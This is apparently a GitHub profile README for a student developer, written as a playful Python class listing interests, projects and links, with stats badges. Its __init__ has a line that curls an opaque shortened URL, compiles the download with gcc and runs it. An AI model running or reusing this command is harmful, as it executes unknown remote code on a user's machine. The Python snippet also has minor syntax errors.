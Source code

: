 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 I'm interested in'           : {'Art, *NIX customisation, Linux and BSD in general!'}
      '- 💼 I am a'                      : {'Senior high school student'},
      '- 🔭 I’m currently working on'    : {'My personal website' : 'https://melorin4.github.io',
                                            'cFetch'              : 'https://github.com/melorin4/cfetch'},
      '- 🌱 I’m currently learning'      : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine'},
      '- 💬 Ask me about'                : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 My art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ Fun fact'                    : ('I'm a Void Linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
  

### languages & other stats 💻
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=beep%20boop" alt="melorin4"/></a>
</p>
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=melorin4&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=melorin4%27s%20Github%20Stats" width="48%" alt="lorin"/></a>
<br>
